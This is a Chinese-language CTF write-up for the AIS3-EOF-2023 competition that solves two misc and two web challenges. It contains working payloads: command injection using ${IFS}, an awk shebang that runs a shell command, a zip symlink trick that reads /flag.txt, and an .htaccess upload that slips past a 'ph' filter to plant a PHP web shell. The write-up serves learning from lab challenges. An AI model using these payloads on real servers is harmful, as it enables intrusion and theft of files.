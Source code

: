 ```yaml
---
layout: post
title: "[CTF] AIS3-EOF-2023 Writeup"
date: 2023-01-08 +0800
categories: CTF
---
```


## Misc

### Washer
nc畫面

![](/images/2023/01/5TXNu9F.png)

隨機生成6個字元，路徑為/tmp/<random*6>

![](/images/2023/01/LkHgvkj.png)

選項1是輸入的內容寫到/tmp/<random*6>

選項2是讀出來

選項3是將輸入的指定檔案的路徑，並執行

![](/images/2023/01/uADO6YZ.png)

![](/images/2023/01/zIZyqd6.png)

解法:

```
選擇1
cat${IFS}/flag
選擇3
/tmp/<random*6>
```

### Execgen

![](/images/2023/01/4y2eNG0.png)

輸入的內容會變成下面這樣，然後執行這個script

```
#!<你輸入的內容>(created by execgen)
```

![](/images/2023/01/MjDD8Wj.png)

解法:

```bash
/usr/bin/awk BEGIN{system("cat /home/chal/flag")}
```


## Web

### Share
網站提供上傳zip檔案

![](/images/2023/01/FrnF7gx.png){:h="50%" w="50%"}

Source
檢查zip內是否包含index.html,並將內容放到/static/<username>/index.html

![](/images/2023/01/1vcNbXM.png)

透過docker-compose.yaml，發現檔案在/flag.txt

![](/images/2023/01/lux3aQ3.png)

使用Symbolic link將./index.html連結到/flag.txt
```bash
ln -s /flag.txt index.html
zip --symlink test.zip index.html
```

### Gist
過濾條件
 - 檔名包含ph
 - 內容包含ph
 - 檔案大小大於 0x100

上傳.htaccess,把.htaccess當成php來執行
```php
<FilesMatch .htaccess>
SetHandler application/x-httpd-p\
hp
Require all granted
p\
hp_flag engine on
</FilesMatch>
p\
hp_value auto_prepend_file .htaccess
#<?=`$_GET[1]`?>
```
## 小節
再接再勵ㄅQQ
![](/images/2023/01/Yqnd2ce.png)
